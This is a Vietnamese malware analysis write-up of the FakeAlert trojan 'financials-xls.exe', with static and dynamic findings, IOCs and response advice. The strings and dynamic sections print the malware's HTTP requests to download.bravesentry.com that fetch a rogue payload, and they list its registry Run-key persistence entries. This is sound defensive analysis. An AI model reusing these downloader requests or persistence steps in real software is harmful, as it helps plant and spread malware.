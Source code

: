```yaml
---
title: Financials-xls.exe
date: 2025-08-05 11:30:00 +0700
categories: [Malware Analysis, Dynamic]
tags: [persistence, fakealert, trojan, downloader]
description: Phân tích hành vi của mẫu mã độc financials-xls.exe – dạng trojan FakeAlert, có persistence và khả năng tải xuống BraveSentry.
---
```



## 🎯 Mục tiêu

- Phân tích tĩnh & động mẫu `financials-xls.exe`
- Ghi nhận IOC và chuỗi hành vi: persistence + downloader (FakeAlert / scareware)
- Đưa ra khuyến nghị phát hiện & ứng phó

---

## 🧊 1. Phân tích tĩnh

**File name:** `financials-xls.exe`

**MD5:** `27599c22e0eba42f3e91e27fe1d04598`

**Đánh giá ban đầu (VirusTotal):** Trojan.FakeAlert

### 🔹 VirusTotal / cảnh báo

![VirusTotal detection](/resources/Financials-xls/Pasted%20image%2020251001113548.png)

### 🔹 EXEinfoPE — Packed, GUI, 32-bit
- EXE báo **32-bit, GUI, packed**.
- Dùng UPX để unpack thành công → chuyển sang phân tích tĩnh sâu hơn.

![EXEinfoPE](/resources/Financials-xls/Pasted%20image%2020251001101000.png)

![UPX unpacked](/resources/Financials-xls/Pasted%20image%2020251001101205.png)

### 🔹 PeStudio — Indicators / Imports / Sections
#### Indicators (cần chú ý)
![PeStudio Indicators](/resources/Financials-xls/Pasted%20image%2020251001101313.png)

- File có signature `Installer VISE Custom` (level 1 cảnh báo).
- Section `.text` được đánh dấu **writable** và **self-modifying** → khả năng runtime patching.
- Thư viện mạng (Windows Sockets) xuất hiện → khả năng sử dụng socket.

#### Import table
![PeStudio Imports](/resources/Financials-xls/Pasted%20image%2020251001101444.png)

- Import nhiều API liên quan đến **network**, **registry**, **process**, **UI/notification** → tương thích với hành vi downloader + persistence + fake alert.

#### Strings — dấu hiệu downloader / fake alert
![PeStudio Strings](/resources/Financials-xls/Pasted%20image%2020251001101927.png)

Một số chuỗi nổi bật (biên tập để dễ đọc):

- `GET /download.php?&advid=00000717&u=%u&p=%u HTTP/1.0\r\nHost: download.bravesentry.com\r\n\r\n`
- `GET http://download.bravesentry.com/download.php?&advid=00000717&u=%u&p=%u HTTP/1.0\r\nHost: download.bravesentry.com\r\nPragma: no-cache\r\nCache-Control: no-cache\r\n\r\n`
- Thông tin đường dẫn & tên ứng dụng giả: `C:\Program Files\BraveSentry\BraveSentry.exe`
- IP liên quan: `69.50.175.181`

→ Rất có khả năng đây là **downloader/dropper** cho BraveSentry (rogue software / scareware).

Một số chuỗi HTML/template cảnh báo giả cũng được tìm thấy (dùng để hiển thị fake alert).
![HTML template & other strings](/resources/Financials-xls/Pasted%20image%2020251001112935.png)

---

## ⚙️ 2. Phân tích động

> Lup-run trong môi trường cô lập (VM), bật ProcMon / Regshot / network capture (Fakenet) để quan sát.

### 🔸 1) Hiện cảnh báo giả (Fake Alert GUI)
Khi chạy, ứng dụng hiện cửa sổ cảnh báo/giả mạo (scareware) để dụ người dùng tương tác / click.
![Fake Alert Window](/resources/Financials-xls/Pasted%20image%2020251001114452.png)

### 🔸 2) Tải payload từ remote (downloader behavior)
Quan sát network: chương trình thực hiện request tới `download.bravesentry.com` để tải về payload (BraveSentry.exe hoặc tương tự).

![Network request to BraveSentry](/resources/Financials-xls/Pasted%20image%2020251001114626.png)

**Mẫu request:**
```

GET /download.php?&advid=00000717&u=<user>&p=<pass> HTTP/1.0
Host: download.bravesentry.com
Pragma: no-cache
Cache-Control: no-cache

```

→ mục tiêu tải chương trình giả mạo/installer xuống và có thể thực thi nó.

### 🔸 3) Persistence — registry Run keys (Regshot)
Regshot diff cho thấy malware ghi các Run entries:

![Regshot diff](/resources/Financials-xls/Pasted%20image%2020251001115031.png)

- `HKU\<sid>\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows update loader` → `"C:\Windows\xpupdate.exe"`
- `HKU\<sid>\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\con` → `"C:\Users\COMPUTER\Desktop\malware-sample\financials-xls2.exe"`

→ Malware cố gắng thiết lập autostart qua `Run` để duy trì persistence.

### 🔸 4) File artifacts (drop)
Các file được tạo / copy:

- `C:\Users\COMPUTER\AppData\Roaming\Install.dat`
- `C:\Windows\xupdate.exe` (cùng hash với binary gốc `financials-xls.exe`)

> Ghi vào `C:\Windows` thường yêu cầu **quyền Administrator**, cho thấy malware cố gắng leo thang hoặc yêu cầu quyền cao hơn.

### 🔸 5) ProcMon timeline — sơ đồ hành vi
ProcMon trace phác thảo luồng hành vi:

![ProcMon behavior diagram](/resources/Financials-xls/Pasted%20image%2020251001121636.png)

Tóm tắt:

- Process `financials-xls2.exe` khởi chạy → spawn 2 thread chính.
  - Thread A: tạo/ghi Run key `Windows update loader` → point tới `C:\Windows\xpupdate.exe`.
  - Thread B: tạo `Install.dat` trong AppData → có thể chứa config hoặc payload giai đoạn 2.
- Bên cạnh đó, process thực hiện HTTP request tới `download.bravesentry.com` để tải payload.

---

## 🚨 Kết luận

### ✅ Tóm tắt hành vi chính
- **Loại mã độc:** Trojan downloader / FakeAlert (scareware) — mục tiêu dụ người dùng cài phần mềm giả mạo.
- **Persistence:** Thiết lập Run key (`Windows update loader`, `con`) để tự khởi động sau login.
- **Drop & Copy:** Ghi bản sao vào `C:\Windows\xupdate.exe` (same hash), tạo `Install.dat` trong AppData.
- **Network:** Request tới `download.bravesentry.com` (`69.50.175.181`) để tải BraveSentry hoặc các payload phụ.
- **Quyền:** Hành vi ghi vào `C:\Windows` gợi ý cần quyền admin.

### 🎯 Mức độ rủi ro
- Trung bình → cao: có persistence và tải thêm mã độc (kịch bản multi-stage).
- Nếu payload thứ cấp có backdoor/RAT thì rủi ro sẽ tăng rất cao.

---

## 📌 IOC (Indicators of Compromise)

| Loại               | Giá trị                                                                                                                                                   |
| ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| File name          | `financials-xls.exe`                                                                                                                                      |
| MD5                | `27599c22e0eba42f3e91e27fe1d04598`                                                                                                                        |
| C2 / Download host | `download.bravesentry.com`                                                                                                                                |
| C2 IP              | `69.50.175.181`                                                                                                                                           |
| File drops         | `C:\Windows\xpupdate.exe` (same hash as original) <br> `C:\Users\<user>\AppData\Roaming\Install.dat`                                                      |
| Registry keys      | `HKCU\...\Run\Windows update loader` = `C:\Windows\xpupdate.exe` <br> `HKCU\...\Run\con` = `C:\Users\COMPUTER\Desktop\malware-sample\financials-xls2.exe` |

---

## 🛡️ Khuyến nghị ứng phó & phát hiện

- **Chặn** domain `download.bravesentry.com` và IP `69.50.175.181` trên firewall/proxy.
- **Quét** hệ thống tìm file `xpupdate.exe` trong `C:\Windows` và file `Install.dat` trong AppData → cách ly & hash-check.
- **Kiểm tra registry**: tìm các Run entries có tên lạ như `Windows update loader`, `con` và xóa/cách ly.
- **Thu thập** memory dump & network capture nếu phát hiện tiến trình đang chạy để phân tích payload thứ cấp.
- **Cảnh báo người dùng**: không chạy file đính kèm từ nguồn không rõ; cảnh báo về các cửa sổ “scan/alert” yêu cầu cài phần mềm.

---
